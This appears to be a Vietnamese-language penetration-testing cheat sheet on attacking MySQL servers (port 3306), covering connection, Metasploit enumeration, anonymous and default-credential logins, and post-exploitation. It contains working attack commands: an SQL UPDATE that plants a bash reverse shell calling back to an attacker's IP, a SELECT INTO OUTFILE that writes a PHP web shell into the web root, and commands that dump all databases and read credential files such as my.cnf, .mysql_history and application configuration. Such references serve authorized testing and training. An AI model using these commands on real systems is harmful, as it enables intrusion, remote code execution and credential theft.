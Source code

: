 # MySQL (Port 3306)

## Connect

### Local

Kết nối tới MySQL cục bộ với tên người dùng, tùy chọn mật khẩu hoặc cơ sở dữ liệu:

```
mysql -u <username>
mysql -u <username> -p
mysql -u <username> -p <database_name>
```

### Remote

Kết nối tới máy chủ MySQL từ xa với tên người dùng, hostname, cổng, và tùy chọn cơ sở dữ liệu:

```
mysql -u <username> -h <ip> -P <port> -p
mysql -u <username> -h <ip> -P <port> -p -D <database_name>
```

### URL

Sử dụng URL MySQL để kết nối ứng dụng với cơ sở dữ liệu:

```
mysql://<username>:<password>@<ip>:<port>/<database_name>
```

***

## Enumeration

### Kiểm tra bằng Metasploit

Sử dụng các module Metasploit để liệt kê phiên bản, lược đồ, hoặc tài khoản người dùng:

```
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/admin/mysql/mysql_enum
msf> use auxiliary/scanner/mysql/mysql_schemadump
```

***

## Attack Vectors

### Đăng nhập ẩn danh

Kết nối tới MySQL mà không cần mật khẩu bằng tài khoản ẩn danh:

```
mysql -u anonymous -h <ip> -P 3306
```

### Đăng nhập với thông tin mặc định

Thử đăng nhập với thông tin đăng nhập mặc định như `root` với mật khẩu trống hoặc yếu:

```
mysql -u root -p
# Nhập mật khẩu mặc định hoặc để trống
```

### Thực thi mã từ xa qua SQL Injection

Tận dụng lỗ hổng SQL Injection để thực thi mã hệ thống thông qua cập nhật dữ liệu:

{% code overflow="wrap" %}

```
mysql> UPDATE DB.users SET email='example@shell|| bash -c "bash -i >& /dev/tcp/<your_ip>/<port> 0>&1" &' WHERE name LIKE 'user%';
```

{% endcode %}

***

## Post-Exploitation

### **Các lệnh MySQL thông dụng**

<table><thead><tr><th width="171">Câu lệnh</th><th width="223">Description</th><th width="347">Cách dùng</th></tr></thead><tbody><tr><td><code>SHOW DATABASES;</code></td><td>Liệt kê Database</td><td><code>SHOW DATABASES;</code></td></tr><tr><td><code>USE</code></td><td>Đổi Database</td><td><code>USE database_name;</code></td></tr><tr><td><code>SHOW TABLES;</code></td><td>Liệt kê các bảng trong Database</td><td><code>SHOW TABLES;</code></td></tr><tr><td><code>SHOW COLUMNS FROM</code></td><td>Liệt kê các cột trong bảng</td><td><code>SHOW COLUMNS FROM table_name;</code></td></tr><tr><td><code>SELECT</code></td><td>Truy xuất dữ liệu</td><td><code>SELECT * FROM table_name;</code></td></tr><tr><td><code>INSERT INTO</code></td><td>Chèn bản ghi mới vào bảng</td><td><code>INSERT INTO table_name (column1, column2) VALUES (value1, value2);</code></td></tr><tr><td><code>UPDATE</code></td><td>Cập nhật các bản ghi  trong bảng</td><td><code>UPDATE table_name SET column1 = value1 WHERE condition;</code></td></tr><tr><td><code>DELETE FROM</code></td><td>Xóa các bản ghi trong bảng</td><td><code>DELETE FROM table_name WHERE condition;</code></td></tr><tr><td><code>CREATE DATABASE</code></td><td>Tạo Database mới</td><td><code>CREATE DATABASE database_name;</code></td></tr><tr><td><code>DROP DATABASE</code></td><td>Xóa Database</td><td><code>DROP DATABASE database_name;</code></td></tr><tr><td><code>CREATE TABLE</code></td><td>Tạo bảng mới</td><td><code>CREATE TABLE table_name (column1 datatype, column2 datatype);</code></td></tr><tr><td><code>DROP TABLE</code></td><td>Xóa bảng</td><td><code>DROP TABLE table_name;</code></td></tr><tr><td><code>ALTER TABLE ADD</code></td><td>Thêm cột mới</td><td><code>ALTER TABLE table_name ADD column_name datatype;</code></td></tr><tr><td><code>ALTER TABLE DROP COLUMN</code></td><td>Xóa cột</td><td><code>ALTER TABLE table_name DROP COLUMN column_name;</code></td></tr><tr><td><code>GRANT</code></td><td>Cấp quyền cho user</td><td><code>GRANT ALL PRIVILEGES ON database_name.* TO 'user'@'localhost' IDENTIFIED BY 'password';</code></td></tr><tr><td><code>REVOKE</code></td><td>Thu hồi quyền của user</td><td><code>REVOKE ALL PRIVILEGES ON database_name.* FROM 'user'@'localhost';</code></td></tr><tr><td><code>SHOW GRANTS FOR</code></td><td>Liệt kê các quyền của user</td><td><code>SHOW GRANTS FOR 'user'@'localhost';</code></td></tr><tr><td><code>FLUSH PRIVILEGES;</code></td><td>Tải lại bảng quyền</td><td><code>FLUSH PRIVILEGES;</code></td></tr></tbody></table>

### Sao lưu toàn bộ cơ sở dữ liệu

Sao lưu tất cả cơ sở dữ liệu để trích xuất thông tin:

```
mysqldump -u <username> -p <password> --all-databases --skip-lock-tables
```

### Đọc tệp hệ thống

Sử dụng hàm load\_file để đọc nội dung tệp từ hệ thống tệp của máy chủ:

```
SELECT load_file('/var/lib/mysql-files/key.txt');
```

### Ghi tệp hệ thống cho RCE

Ghi script độc hại vào thư mục web để thực thi mã từ xa:

{% code overflow="wrap" %}

```
SELECT 1,2,"<?php echo shell_exec($_GET['command']);?>" INTO OUTFILE '/var/www/html/shell.php';
```

{% endcode %}

### Truy cập tệp cấu hình MySQL

Kiểm tra các tệp cấu hình để tìm thông tin đăng nhập.

Unix:

```
cat /etc/mysql/my.cnf
cat ~/.my.cnf
```

Windows:

```
type config.ini
type my.ini
```

### Kiểm tra lịch sử lệnh

Xem lịch sử lệnh MySQL để tìm thông tin nhạy cảm:

```
cat ~/.mysql_history
```

### Kiểm tra tệp nhật ký

Kiểm tra các tệp nhật ký để tìm dữ liệu nhạy cảm:

```
cat connections.log
cat update.log
cat common.log
```

### Tìm mật khẩu trong ứng dụng

Kiểm tra tệp cấu hình ứng dụng web để tìm thông tin đăng nhập MySQL:

```
cat /var/www/html/configuration.php
```